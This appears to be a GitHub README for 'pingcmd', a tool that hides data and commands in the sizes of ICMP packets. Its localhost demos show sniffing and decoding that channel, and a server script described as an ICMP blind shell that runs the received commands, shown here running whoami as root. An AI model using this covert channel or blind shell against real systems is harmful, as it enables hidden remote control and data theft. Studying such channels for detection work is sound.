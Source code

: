 # pingcmd
uses icmp data size to transport data. (pingcmd now supports icmp6)

## Idea
Came from [jobertabma](https://gist.github.com/jobertabma/e9a383a8ad96baa189b65cdc8d74a845)'s gist about passing the numeric value of ASCII characters through the ICMP data size value. The process is separated in 3:
1. Sniff for ICMP packets of type *echo* (sniff.sh)
2. Send information to server (pingcmd.pl), char-by-char, via the size.
3. Stop and decode the data sizes (decode.sh). Data size 8 is treated a newline.

## Example
1. **Server-side:**
```bash
$ cd server/
$ sudo ./sniff.sh 4 lo output.cap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```
*Note: "4" stands for IPv4, 6 looks for IPv6.*

2. **Sender-side:**
```bash
$ sudo perl pingcmd.pl -i lo -h localhost
(cmd)$ ls
(cmd)$ id
(cmd)$ exit
$
```
3. **Server-side:**
```bash
^C6 packets captured
12 packets received by filter
0 packets dropped by kernel
$ file output.cap
output.cap: tcpdump capture file (little-endian) - version 2.4 (Ethernet, capture length 262144)
$ ./decode.sh output.cap
ls
id

```

## pingcmd.c
Added a C version just for fun. Use the Makefile to compile (you'll need gcc).

## server/pingrecv.pl
This script will act as an icmp (blind) shell. All characters passed through icmp's data size build a command that on "null" size are executed.
1. **Server-side:**
```bash
$ cd server/
$ perl pingrecv.pl icmp 127.0.0.1
```
2. **Client-side:**
```bash
$ sudo ./pingcmd.pl -i lo -h 127.0.0.1
(cmd)$ whoami > who.log
(cmd)$ q
$
```
3. **Server-side:**
```bash
$ sudo perl pingrecv.pl icmp 127.0.0.1
^C
$ file who.log
who.log: ASCII text
$ cat who.log
root
```
